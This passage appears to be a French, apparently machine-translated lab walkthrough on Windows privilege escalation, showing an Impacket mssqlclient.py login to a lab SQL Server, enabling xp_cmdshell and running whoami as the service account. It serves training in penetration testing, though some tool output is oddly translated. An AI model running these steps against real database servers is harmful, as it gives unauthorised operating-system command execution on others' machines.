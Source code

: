 Connexion avec MSSQLClient.py

```
dsgsec@htb[/htb]$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Mot de passe:
[*] Cryptage requis, passage à TLS
[*] ENVCHANGE(DATABASE) : ancienne valeur : maître, nouvelle valeur : maître
[*] ENVCHANGE(LANGUAGE) : ancienne valeur : aucune, nouvelle valeur : us_english
[*] ENVCHANGE(TAILLE DE PAQUET) : ancienne valeur : 4096, nouvelle valeur : 16192
[*] INFO(WINLPE-SRV01\SQLEXPRESS01) : Ligne 1 : contexte de base de données modifié en « maître ».
[*] INFO(WINLPE-SRV01\SQLEXPRESS01) : Ligne 1 : paramètre de langue modifié en us_english.
[*] ACK : Résultat : 1 - Microsoft SQL Server (130 19162)
[!] Appuyez sur help pour des commandes shell supplémentaires
SQL>

```

#### Activation de xp_cmdshell

Ensuite, nous devons activer la procédure stockée `xp_cmdshell` pour exécuter les commandes du système d'exploitation. Nous pouvons le faire via le shell Impacket MSSSQL en tapant `enable_xp_cmdshell`. Taper `help` affiche quelques autres options de commande.

Activation de xp_cmdshell

```
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01) : ligne 185 : l'option de configuration "afficher les options avancées" est passée de 0 à 1. Exécutez l'instruction RECONFIGURE pour l'installation.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01) : ligne 185 : l'option de configuration 'xp_cmdshell' est passée de 0 à 1. Exécutez l'instruction RECONFIGURE pour installer

```

Remarque : Nous n'avons pas besoin de taper `RECONFIGURE` car Impacket le fait pour nous.

#### Confirmation de l'accès

Avec cet accès, nous pouvons confirmer que nous fonctionnons bien dans le contexte d'un compte de service SQL Server.

Confirmation de l'accès

```
SQL> xp_cmdshell whoami

sortir

-------------------------------------------------- ------------------------------

service nt\mssql$sqlexpress01

```
